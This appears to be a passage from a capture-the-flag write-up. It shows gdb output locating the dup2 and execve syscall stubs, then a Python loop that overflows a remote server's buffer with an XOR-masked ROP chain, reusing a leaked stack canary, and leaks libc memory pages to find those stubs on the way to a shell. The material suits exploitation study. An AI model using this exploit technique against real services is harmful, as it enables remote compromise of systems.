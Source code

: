 ```
gdb-peda$ x/8b dup2
0x7ffff7af49a0 <dup2>:	0xb8	0x21	0x00	0x00	0x00	0x0f	0x05	0x48
```
Since `0x0f 0x05` is the `syscall` instruction, we can just stop there

```
gdb-peda$ x/8b execve
0x7ffff7ac8e30 <execve>:	0xb8	0x3b	0x00	0x00	0x00	0x0f	0x05	0x48
```

I wrote something pretty ugly that gets the job done:
```python
libc_page = unpack(write_libc) & 0xfffffffffffff000
page_size = 0x1000
dup2_start      = "".join([chr(t) for t in [0xb8,	0x21,	0x00,	0x00,	0x00,	0x0f,	0x05]])
execve_start    = "".join([chr(t) for t in [0xb8,	0x3b,	0x00,	0x00,	0x00,	0x0f,	0x05]])

dup2_remote_addr = 0
execve_remote_addr = 0

# scan down
print "Scanning down"
while dup2_remote_addr == 0 or execve_remote_addr == 0:
    try:
        payload = "davide" + "AA"
        payload += p64(gadget_pop_rdi_ret ^ Ds)
        payload += p64(0x4 ^ Ds)
        payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
        payload += p64(libc_page ^ Ds)   # buffer = page
        payload += p64(0x1337)   # pop r15, dont-care
        payload += p64(gadget_pop_rdx_ret ^ Ds)
        payload += p64(page_size ^ Ds)  # length
        payload += p64(text_section_write_plt ^ Ds)
        # Pad to the end of buffer
        payload += "B" * (1032 - len(payload))
        payload += p64(canary ^ Ds)
        payload += p64(buffer_addr ^ Ds)
        payload += p64(text_section_leave_ret ^ Ds)

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(SERVER)
        s.recv(4096)  # server hello
        s.send(payload)

        page_data = s.recv(page_size)
        if len(page_data) == 0:
            break

        if dup2_start in page_data:
            dup2_remote_addr = libc_page + page_data.index(dup2_start)
            print "Found dup2 @ {}".format(hex(dup2_remote_addr))

        
        if execve_start in page_data:
            execve_remote_addr = libc_page + page_data.index(execve_start)
            print "Found execve @ {}".format(hex(execve_remote_addr))


        s.close()
        libc_page -= page_size  # scan down

    except EOFError:
        break

```